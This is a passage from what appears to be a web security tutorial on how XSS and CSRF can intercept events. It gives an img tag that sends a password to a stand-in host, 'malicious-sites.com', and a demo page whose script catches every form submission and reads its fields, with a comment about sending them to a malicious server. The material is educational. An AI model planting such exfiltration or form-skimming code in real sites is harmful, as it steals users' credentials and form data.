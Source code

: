 `<img src="http//malicious-sites.com/your-logo.jpg?sensitive_data=yourpassword"/>`

### Intercepting events
XSS and CSRF can also be used to intercept events, such as form-submit
requests, and manipulate the request by sending the information to some
other malicious servers.
Take a look at the code example for `intercept.html`
```html
<!DOCTYPE html>
     <html lang="en">
       <head>
           <title>Intercept</title>
     <link href="//maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.
     min.css" rel="stylesheet">
       </head>
       <body>
           <div class="container">
             <div class="header">
                <ul class="nav nav-pills pull-right">
                   <li class="active"><a href="#">Home</a></li>
                   <li><a href="#">About</a></li>
               <li><a href="#">Contact</a></li>
             </ul>
             <h3 class="text-muted">Project name</h3>
           </div>
           <div class="jumbotron">
             <form role="form">
               <div class="form-group">
                  <label for="exampleInputEmail1">Input 1</label>
                  <input id="input1" type="text" class="form-control"
                  id="exampleInputEmail1" placeholder="Input 1">
               </div>
               <div class="form-group">
                  <label for="exampleInputPassword1">Input 2</label>
                  <input id="input2" type="text" class="form-control"
                  id="exampleInputPassword1" placeholder="Input 2">
               </div>
               <button type="submit" class="btn btn-default">Submit</
               button>
             </form>
           </div>
        </div> <!-- /container -->
        <!-- Bootstrap core JavaScript
        ================================================== -->
        <!-- Placed at the end of the document so the pages load faster
        -->
        <script src="//ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.
        min.js"></script>
        <script>
        $(document).on('submit', 'form', function(event) {
               console.log("submit");
           console.log( $('#input1').val() );
           console.log( $('#input2').val() );
           // perform a get or post request to a malicious server.
           console.log("i might just send your form data to somewhere
           else")
        })
        </script>
      </body>
    </html>
```
I want you to note the JavaScript snippet where the script is listening to a global
submit event. Assuming the hijacker knows what the form fields are, the ID that